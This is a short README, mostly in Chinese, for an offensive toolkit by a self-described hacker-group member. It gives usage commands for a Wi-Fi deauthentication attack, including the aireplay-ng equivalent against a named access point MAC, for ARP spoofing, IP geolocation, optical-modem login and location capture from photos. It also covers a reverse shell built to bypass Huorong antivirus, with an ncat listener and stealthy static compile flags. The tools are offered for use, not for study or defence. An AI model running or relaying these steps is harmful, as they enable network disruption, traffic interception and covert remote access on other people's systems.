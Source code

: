 ## sxsymxsyy(ICU黑客组织成员)
### deauth attack
用法
<code>bash 0.sh</code><br>
请在0.sh中自行添加<code>sleep</code><br>
并修改0.c中<code>main</code>函数里的信道<code>b</code><br>
3.py中的<code>addr2</code>和<code>addr3</code><br>
该项目相当于执行<br>
<code>aireplay-ng -0 <int类型> -a 1C:FF:59:33:7F:FF(AP) --ignore-negative-one -D wlan0</code><br>
如果要注释 那么请<code>cat 0.txt</code><br>
### 2.py
用法 <code>python3 2.py <IP地址></code><br>
请到<code>maxmind</code>下载<code>GeoLite2-City.mmdb</code>后运行
### metadata of movie or picture
用法 <code>python3 1.py</code><br>
步骤
<code>start ms-settings:privacy-location</code><br>
turn on location services let app camera access your location<br>
then <code>start microsoft.windows.camera:</code><br>
### gateway mac address
用法<br>
<code>pwsh</code><br>
<code>.\0.ps1</code><br>
<code>python3 0.py</code>
请将0.py中的<code>src</code>修改为<code>.\0.ps1</code>的输出<br>
### bluetooth pair
用法<br>
<code>python3 4.py</code><br>
### arp spoof
用法<br> 
<code>python3 9.py</code><br>
<code>python3 10.py</code><br>
修改10.py中的wlp3s0(网卡)<br>
local ethernet address && gateway ipv4 address<br>
### login optical modem
用法<br>
<code>gcc ./2.c -o 2</code><br>
<code>./2</code><br>
### bypass huorong reverse shell(small version)
用法<br>
<code>ncat -lvp 19482</code><br>
<code>g++ 0.cpp -o 00 -lws2_32 -s -O2 -static -static-libgcc -static-libstdc++ -mwindows</code>
需要修改0.cpp中的RyzU1
###### 2024年12月原创于中华人民共和国浙江省宁波市
